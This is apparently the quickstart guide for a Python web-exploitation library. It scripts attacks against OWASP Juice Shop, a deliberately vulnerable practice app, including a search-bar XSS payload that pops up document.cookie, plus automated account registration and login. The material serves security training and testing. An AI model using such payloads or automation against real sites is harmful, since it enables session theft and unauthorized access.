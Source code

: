 # Quickstart

Selenium Oxide comes with 2 usable parts as of 2.0.0: the Exploit Builder and the User Generator. You can use both fairly easily in the same exploit!

## Using the Exploit Builder

The Exploit Generator is designed to be used similar to Builder Pattern classes in object-oriented programming: you chain functions together and eventually get a result.

Well, here we have the chaining, and the result unfolds as the program executes, so I think that counts?

Either way, let's have a look at writing an exploit against a publicly available demo of OWASP Juice Shop.

## Setting Up

Let's start by importing everything we need and initializing our Exploit Builder:

```python
# engagements/quickstart.py

from selenium_oxide import ExploitBuilder

exploit = ExploitBuilder("https://juice-shop.herokuapp.com")

exploit.get("/")
```

Let's see what that gets us:

![OWASP Juice Shop's welcome page, with a welcome modal we need to dismiss.](assets/image.png)

Hmm. Looks like we have our first hurdle already. We need to click that "Dismiss" button to proceed. Let's copy the XPath of that button by inspecting it in dev tools, right clicking, and then selecting Copy -> XPath.

```python
from selenium_oxide import ExploitBuilder

exploit = ExploitBuilder("https://juice-shop.herokuapp.com")

dismiss_button_xpath = "/html/body/div[3]/div[2]/div/mat-dialog-container/app-welcome-banner/div/div[2]/button[2]"

exploit.get("/").click(dismiss_button_xpath, timeout=10)

print("[*] Dismissed pop-up.")
```

We'll set the XPath as a variable for now, and then we just need to click on the button itself. With Juice Shop in particular, the elements can take a bit to load, so allocate something like 10 or more seconds for the click to register properly.

Since the timeouts are high, I'd recommend adding a little print statement at the end to let you know when the program has completed, like I did.

## First Actual Exploit

Let's actually try and get an exploit going. For this one, we can make a little XSS pop up using the search bar. This one has you click a button and then type some text, so let's do that.

```python
# ---SNIP---

search_xpath = '//*[@id="mat-input-0"]'

search_xss_payload = (
    '<img src="http://url.to.file.which/not.exist" onerror=alert(document.cookie);>'
)

(
    exploit.get("/")
    .click(dismiss_button_xpath, timeout=10)
    .click('//*[@id="searchQuery"]')
    .type_entry(
        search_xpath,
        search_xss_payload,
    )
    .send_enter(search_xpath)
)

print("[*] Exploit complete.")
```

With this one, it might be necessary to dig through the HTML until you find the `input` tag that actually lets you send keystrokes.

However, if we run that, and all goes well, we should get an XSS pop up! Hooray!

![A web page with an alert showing the cookies for the web page.](assets/xss.png)

## Using the User Generator

Let's make use of that User Generator and sign up some users for the site. For this site, the default password of SeO2User isn't quite right, so we'll also need to set a password.

Before moving further, we'll also want to make sure that an alert actually fired for the XSS exploit.

```python
from selenium_oxide import ExploitBuilder, SeO2User

# ---SNIP---

user = SeO2User(password="Password1!")

(
    exploit.get("/")
# ---SNIP---
)

if not exploit.wait_for_alert():
    print("[-] Alert not fired.")
    sys.exit(1)

print("[*] Exploit complete.")
```

Then, we need to go to the registration page, grab the XPaths for all of the different inputs, and give an answer for a security question -- because of course those are still around.

```python

# ---SNIP---

(
    exploit.get("/#/register")
    .type_entry('//*[@id="emailControl"]', user.email)
    .type_entry('//*[@id="passwordControl"]', user.password)
    .type_entry('//*[@id="repeatPasswordControl"]', user.password)
    .click(
        "/html/body/app-root/div/mat-sidenav-container/mat-sidenav-content/app-register/div/mat-card/div[2]/div[1]/mat-form-field[1]/div/div[1]/div[3]/mat-select/div/div[2]"
    ) # This is for the security question option box
    .click("/html/body/div[3]/div[2]/div/div/div/mat-option[1]/span")
    .type_entry('//*[@id="securityAnswerControl"]', user.name)
    .click('//*[@id="registerButton"]')
)

print("[*] Exploit complete.")
```

If all goes well, you should be redirected to a login page. Luckily, we have a convenience function for that!

`login()` takes an endpoint, username, password, and XPaths (or, actually, whatever selector if you use the "by" parameter) for the username and password fields, as well as the submit button. Handy!

```python

# ---SNIP---

(
    exploit.get("/#/register")
    .type_entry('//*[@id="emailControl"]', user.email)
    .type_entry('//*[@id="passwordControl"]', user.password)
    .type_entry('//*[@id="repeatPasswordControl"]', user.password)
    .click(
        "/html/body/app-root/div/mat-sidenav-container/mat-sidenav-content/app-register/div/mat-card/div[2]/div[1]/mat-form-field[1]/div/div[1]/div[3]/mat-select/div/div[2]"
    ) # This is for the security question option box
    .click("/html/body/div[3]/div[2]/div/div/div/mat-option[1]/span")
    .type_entry('//*[@id="securityAnswerControl"]', user.name)
    .click('//*[@id="registerButton"]')
    .login(
        "/#/login",
        user.email,
        user.password,
        '//*[@id="email"]',
        '//*[@id="password"]',
        '//*[@id="loginButton"]',
    )
)

print("[*] Exploit complete.")
```

## Moving On

Hopefully this has given you some insight as to how to use Selenium Oxide in a broad sense. There are more features under the hood, such as the API interface, JavaScript execution, cookie manipulation, and more!
